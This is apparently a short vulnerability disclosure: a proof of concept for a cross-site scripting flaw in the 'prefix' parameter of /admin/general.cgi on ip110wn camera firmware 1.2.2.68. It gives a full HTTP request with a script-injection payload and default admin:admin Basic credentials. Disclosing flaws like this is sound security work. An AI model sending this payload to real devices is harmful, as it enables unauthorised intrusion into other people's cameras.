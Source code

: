 # PoC

There is an xss vulnerability in ip110wn, the vulnerability point is located in the prefix parameter in /admin/general.cgi

#### http://ip/admin/general.cgi

```


fw_tv-ip110wn_v2(1.2.2.68)

POST /admin/general.cgi
HTTP/1.1 Host: 192.168.73.129 
Content-Length: 112 Cache-Control: max-age=0 
Authorization: Basic YWRtaW46YWRtaW4= 
Upgrade-Insecure-Requests: 1 
Origin: http://192.168.73.129 
Content-Type: application/x-www-form-urlencoded 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9 
Referer: http://192.168.73.129/admin/scheprofile.asp?en 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9 
Connection: close

prefix=123"><script>alert(123)</script><a&duration=20&gpioduration=20
```


#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao

